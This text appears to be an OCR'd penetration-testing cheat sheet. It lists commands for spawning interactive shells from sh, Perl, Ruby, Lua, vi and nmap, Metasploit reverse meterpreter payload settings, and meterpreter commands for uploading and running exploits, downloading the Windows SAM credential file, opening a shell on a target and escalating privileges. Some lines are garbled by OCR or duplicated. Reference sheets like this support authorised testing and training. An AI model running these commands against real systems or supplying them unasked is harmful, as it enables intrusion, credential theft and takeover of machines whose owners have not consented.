 # Spawn Interactive sh shell
/bin/sh -i

# Spawn Perl TTY Shell
exec "/bin/sh";
perl —e 'exec "/bin/sh";'

# Spawn Ruby TTY Shell
exec "/bin/sh"

# Spawn Lua TTY Shell
os.execute('/bin/sh')

# Spawn TTY Shell from Vi
# Run shell commands from vi:
:!bash

# Spawn TTY Shell NMAP
!sh



# Meterpreter Payloads
======================
# Windows reverse meterpreter payload
COMMAND							DESCRIPTION
set payload windows/meterpreter/reverse_tcp		Windows reverse tcp payload

# Windows VNC Meterpreter payload
COMMAND							DESCRIPTION
set payload windows/vncinject/reverse_tcp					
set ViewOnly false					Meterpreter Windows VNC Payload

# Linux Reverse Meterpreter payload
COMMAND							DESCRIPTION
set payload linux/meterpreter/reverse_tcp		Meterpreter Linux Reverse Payload

# Meterpreter Cheat Sheet
=========================
COMMAND							DESCRIPTION
upload file c:\\windows					Meterpreter upload file to Windows target
download c:\\windows\\repair\\sam /tmp			Meterpreter download file from Windows target
download c:\\windows\\repair\\sam /tmp			Meterpreter download file from Windows target
execute -f c:\\windows\temp\exploit.exe			Meterpreter run .exe on target - handy for executing uploaded exploits
execute -f cmd -c 					Creates new channel with cmd shell
ps							Meterpreter show processes
shell							Meterpreter get shell on the target
getsystem						Meterpreter attempts priviledge escalation the target
